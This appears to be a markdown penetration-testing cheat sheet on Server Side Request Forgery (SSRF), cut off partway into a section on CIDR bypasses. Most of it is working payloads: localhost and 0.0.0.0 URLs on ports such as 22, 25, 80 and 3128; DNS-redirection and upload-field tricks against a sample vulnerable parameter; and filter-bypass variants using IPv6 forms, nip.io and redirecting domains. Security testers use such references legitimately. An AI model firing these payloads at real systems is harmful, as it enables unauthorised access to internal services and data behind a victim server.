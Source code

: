 ## SSRF
>Server Side Request Forgery (SSRF) is simply an attack where the server will make a request (act like a proxy) for the attacker either to a local or to a remote source and then return a response containing the data resulting from the request.

##### Basic SSRF v1
    http://127.0.0.1:80
    http://127.0.0.1:443
    http://127.0.0.1:22
    http://0.0.0.0:80
    http://0.0.0.0:443
    http://0.0.0.0:22
##### Basic SSRF — Alternative version
    http://localhost:80
    http://localhost:443
    http://localhost:22
##### Advanced exploit using a redirection
1. Create a subdomain pointing to 192.168.0.1 with DNS A record  e.g:ssrf.example.com
2. Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP, vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
##### Advanced exploit using type=url
1. Change "type=file" to "type=url"
2. Paste URL in text field and hit enter
3. Using this vulnerability users can upload images from any image URL = trigger an SSRF

### Bypassing filters
### Bypass using HTTPS
    https://127.0.0.1/
    https://localhost/
### Bypass localhost with [::]
    http://[::]:80/
    http://[::]:25/ SMTP
    http://[::]:22/ SSH
    http://[::]:3128/ Squid
    
    http://0000::1:80/
    http://0000::1:25/ SMTP
    http://0000::1:22/ SSH
    http://0000::1:3128/ Squid
### Bypass localhost with a domain redirection
    http://spoofed.burpcollaborator.net
    http://localtest.me
    http://customer1.app.localhost.my.company.127.0.0.1.nip.io
    http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
    http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
The service nip.io is awesome for that, it will convert any ip address as a dns.

    NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
### Bypass localhost with CIDR
It’s a /8
  